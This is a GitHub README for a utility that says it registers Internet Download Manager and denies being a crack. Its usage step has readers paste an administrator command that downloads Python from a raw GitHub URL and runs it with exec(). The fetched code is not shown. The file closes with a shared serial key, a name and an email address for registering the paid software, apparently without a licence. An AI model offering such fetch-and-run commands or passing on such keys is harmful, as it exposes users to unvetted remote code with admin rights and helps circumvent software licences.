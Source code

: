 <h1 style="margin-left: 20px;">IDM Registration Utility (idman641, Build 18, Latest Version)</h1>

Welcome to my repository! This IDM is not a cracked or unofficial version, it just registers IDM with a valid key that has been purchased!
Crack and Unofficial versions contain Viruses and trojans, you can download the official IDM and register it via this py script.
<img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/idm.png" alt="IDM Logo" width="20" height="18">
## Additional Resources
- If you have any concerns about the IDM Utility, you can use [VirusTotal](https://www.virustotal.com) to scan the executable file for peace of mind. 
<br>
Here's the Report <br>
<a href="https://www.virustotal.com/gui/file/6ee0630168046a59382c17cc230cf667853858b6a1fc848b3dd118869f729cdf" target="_blank">
  <img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/Virustotal_logo_pixelalign.png" alt="IDM Logo" width="200" height="60">
</a>


You can find resources in the resources folder.


## Screenshots
Here's a screenshot of what the Registered IDM looks like:
![IDM Screenshot](https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/image.png)

## How to Use
1. Install Python on your device.
2. Copy this command, and past it on cmd (Administration required)
```python
C:\Windows\py.exe -m pip install requests psutil && C:\Windows\py.exe -c "import urllib.request, requests, psutil; exec(urllib.request.urlopen('https://raw.githubusercontent.com/musaalif6969/IDM-Registration-Utility/main/main.py').read().decode())"


```
3. You are good to go!

---

## Additional Info


```ini
; First Name
[FName]="Musa"

; Installation Status
[InstallStatus]=dword:00000003

; Last Name
[LName]="Alif"

; Email Address
[Email]="musaalif007@gmail.com"

; Serial Key
[Serial]="HE3TB-8J3SY-FP9SC-6RKR2"
```
